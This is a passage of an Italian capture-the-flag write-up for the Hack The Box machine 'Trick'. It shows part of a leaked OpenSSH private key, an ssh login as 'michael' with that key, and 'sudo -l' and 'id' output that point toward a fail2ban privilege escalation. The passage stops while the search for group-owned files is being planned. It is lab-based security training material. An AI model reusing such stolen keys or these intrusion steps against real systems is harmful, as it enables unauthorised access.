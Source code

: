 ```
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY----- 
```

cambiamo la proprietà del file con chmod 600 

e filamente possiamo collegarci tarmattie ssh ottenendo cosi  accesso al macchina 

```bash
┌──(root㉿kali)-[/home/kali/htb/trick]
└─# ssh michael@10.10.11.166 -i id_rsa
The authenticity of host '10.10.11.166 (10.10.11.166)' can't be established.
ED25519 key fingerprint is SHA256:CUKzxire1i5wxTO1zNuBswEtE0u/RyyjZ+v07fOUuYY.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.11.166' (ED25519) to the list of known hosts.
Linux trick 4.19.0-20-amd64 #1 SMP Debian 4.19.235-1 (2022-03-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jul 28 11:38:22 2023 from 10.10.14.2
michael@trick:~$
```

# PRIVESC

per vedere cosa possiamo eseguire senza password sudo -l 

```
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```


michael è anche nel gruppo di sicurezza:

```
michael@trick:~$ id
uid=1001(michael) gid=1001(michael) groups=1001(michael),1002(security)
```
Questo gruppo non è una cosa standard di Linux. Cercherò i file a cui Michael può accedere che si trovano in quel gruppo usando il comando find. È importante inviare gli errori a /dev/null (ignorarli) altrimenti ogni file o cartella a cui Michael non può accedere genererà un errore.
